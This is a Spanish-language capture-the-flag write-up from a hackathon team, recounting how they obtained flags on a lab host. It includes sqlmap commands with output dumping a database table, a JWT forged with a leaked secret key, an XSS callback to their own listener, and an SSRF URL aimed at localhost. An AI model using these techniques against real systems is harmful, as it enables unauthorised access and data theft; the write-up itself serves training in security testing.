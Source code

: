# Hackathon NUWE - Schneider Electric

Nombres: Gabriel Juan, Anthony Michael Alonso, Sergi

Equipo/Mesa: 58

## FLAG{ALWAYS_CHECK_COMMITS}

Para encontrar el git hemos seguido estos pasos:
- url https definida en http://192.168.56.101/robots.txt
- Modificar el etc/hosts para añadir 192.168.56.101 wp.geohome.com
- Accediendo wp.geohome.com, se puede ver un link al github donde está el código fuente en el historial de commits.

![imagen del commit donde hemos encontrado el flag](./images/FLAG{ALWAYS_CHECK_COMMITS}_1.jpg?raw=true)

Imagen del commit donde hemos encontrado el flag

## FLAG{Update_Plugins!}

python sqlmap.py -u "https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1" --tables

[20:04:16] [INFO] fetching number of tables for database 'flag'
[20:04:16] [INFO] retrieved: 1
[20:04:18] [INFO] retrieved: flag

python sqlmap.py -u "https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1" --dump -D flag -T flag

[20:20:00] [INFO] fetching entries for table 'flag' in database 'flag'
[20:20:00] [INFO] fetching number of entries for table 'flag' in database 'flag'
[20:20:00] [INFO] retrieved: 1
[20:20:04] [INFO] retrieved: FLAG{Update_Plugins!}

## API_FLAG{Never_public_your_secret}

Aprovechando la información del git donde muestra endpoints de register y login, hemos creado un usuario y nos hemos logeado para conseguir un access_token.
Con ese token lo hemos pasado por jwt.io y hemos modificado el usuario por admin, y definido la JWT secret key del github "Ge0HomeIsThePlaceWhereFantasyMeetsReality" y hemos conseguido un nuevo access_token.
Con ese nuevo token hemos hecho una petición postman apuntando al endpoint /admin, el endpoint /admin lo hemos recuperado con fuzz.
![Hacemos el fuzz para encontrar mas endpoints](./images/fuzz_1.jpg?raw=true)

![cambiamos algunas cosas del token(user y le pinemos admin, y ponemos la JWT_SECRET_KEY](./images/token_admin.jpg?raw=true)


## FLAG{sanitize_input}

![Hacemos cross side scripting para enviar una peticion a nuestro kali](./images/cross_side_scripting_2.jpg?raw=true)

Hacemos cross side scripting para enviar una peticion a nuestro kali

![Ponemos un listener en el teminal y cuando se envia la peticion nosotros con el listener la capturamos y conseguimos la flag](./images/FLAG{sanitize_input}.jpg?raw=true)

Ponemos un listener en el teminal y cuando se envia la peticion nosotros con el listener la capturamos y conseguimos la flag


## FLAG{SSRF_PARA_TOD@S_XD}

![Cambiamos la url para llegar al sitio concreto cambiando letras y todo ](./images/FLAG{SSRF_PARA_TOD@S_XD}.jpg?raw=true)

Para conseguir la Flag hemos usado el URL: http://192.168.56.101/testsite.php?url=http://locAlhost:1337
